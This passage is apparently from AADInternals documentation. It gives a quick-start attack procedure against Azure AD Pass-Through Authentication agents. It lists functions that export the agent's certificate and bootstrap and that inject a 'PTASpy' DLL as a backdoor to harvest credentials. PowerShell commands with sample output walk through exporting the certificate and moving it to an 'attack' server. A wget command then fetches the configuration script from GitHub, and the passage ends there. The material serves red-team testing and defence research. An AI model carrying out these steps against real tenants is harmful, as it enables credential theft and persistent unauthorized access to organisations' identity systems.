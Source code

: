 All the components required for the attack are included in **AADInternals**:

Function 					| Description
---							| ---
<a href="/aadinternals/#export-aadintproxyagentcertificates" target="_blank">Export-AADIntProxyAgentCertificates</a> 	| Export PTA agent certificate and bootstrap
<a href="/aadinternals/#set-aadintptacertificate" target="_blank">Set-AADIntPTACertificate</a> 	| Configure PTA agent to use the given certificate.
<a href="/aadinternals/#install-aadintptaspy" target="_blank">Install-AADIntPTASpy</a> 			| Inject <a href="https://github.com/Gerenios/public/blob/master/PTASpy.cpp" target="_blank">PTASpy.dll</a> to PTA agent. Enables backdoor and start harvesting credentials
<a href="/aadinternals/#get-aadintptaspylog" target="_blank">Get-AADIntPTASpyLog</a> 			| Show the harvested credentials.

## Quick start guide

For those who just wants to get started, here are the two steps. To learn more details, continue reading 😉

### Step 1

On the server running PTA agent, as a local administrator, use AADInternals to export the certificate and bootstrap:
{{< highlight powershell >}}
# Export PTA agent certificate and boostrap
Export-AADIntProxyAgentCertificates -GetBootstrap
{{< /highlight>}}
**Output:**
```
WARNING: Running as LOCAL SYSTEM. You MUST restart PowerShell to restore PTA01\Administrator rights.
Certificate saved to: PTA01.company.com_ea664074-37dd-4797-a676-b0cf6fdafcd4_4b6ffe82-bfe2-4357-814c-09da95399da7_A3457AEAE25D4C513BCF37CB138628772BE1B52.pfx
Bootstrap saved to:   PTA01.company.com_ea664074-37dd-4797-a676-b0cf6fdafcd4_4b6ffe82-bfe2-4357-814c-09da95399da7_A3457AEAE25D4C513BCF37CB138628772BE1B52.xml
```

**Note:** If you get multiple certificates, bootstrap requests will fail for expired ones. 
If this happens, use the certificate which bootstrap request doesn't fail.

Copy the certificate and bootstrap to an empty "**attack**" Windows server (tested on 2019 and 2022) and rename to **cert.pfx** and **bootstrap.xml**.

### Step 2

Download the <a href="https://github.com/Gerenios/public/blob/master/PTASpy/Configure-PTASpy.ps1" target="_blank">Configure-PTASpy.ps1</a> to the "**attack**" server and run it as local administrator:

{{< highlight powershell >}}
# Download the configuration script
wget "https://raw.githubusercontent.com/Gerenios/public/master/PTASpy/Configure-PTASpy.ps1" -OutFile "Configure-PTASpy.ps1"

